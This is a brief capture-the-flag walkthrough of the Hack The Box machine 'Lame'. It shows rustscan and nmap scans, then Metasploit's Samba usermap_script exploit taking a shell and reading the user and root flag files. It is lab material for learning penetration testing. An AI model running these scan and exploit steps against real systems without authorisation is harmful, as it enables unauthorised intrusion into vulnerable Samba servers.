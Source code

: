 
# ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.3
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6efb5f15-da57-45bb-95c6-ec7ee47a2fa2)

```bash
nmap -A -p 21,22,139,445,332 10.10.10.3 -Pn
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6fcd0ee4-f89b-4ad0-a6f4-7aa9b87c7447)


### FTP - Nada Encontrado


![image](https://github.com/lufffe/Writeups/assets/90646635/02edc325-fa94-4adc-9310-acbc60314a50)

```bash
msfconsole
```

![image](https://github.com/lufffe/Writeups/assets/90646635/59827a74-da5a-42f9-af26-bf5dcdf666f3)

<aside>
💡 https://www.exploit-db.com/exploits/16320
</aside>

![image](https://github.com/lufffe/Writeups/assets/90646635/d61b302a-9f86-4b48-8ffc-946c8b6ff51c)

```bash
search username map script
```

![image](https://github.com/lufffe/Writeups/assets/90646635/30b28df0-9074-42e4-bd3e-b8470a448e65)

###  Metasploit

```bash
msf6 > use 1
```

```bash
msf6 exploit(multi/samba/usermap_script) > show options
```

```bash
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
```

```bash
msf6 exploit(multi/samba/usermap_script) > set lhost 
```

```bash
msf6 exploit(multi/samba/usermap_script) > exploit
```

![image](https://github.com/lufffe/Writeups/assets/90646635/eaad40bd-1792-4292-90d4-d495e3843c7d)

pwd
/home/makis

```bash
cat user.txt
```

pwd /root/
```bash
cat /root/root.txt
```
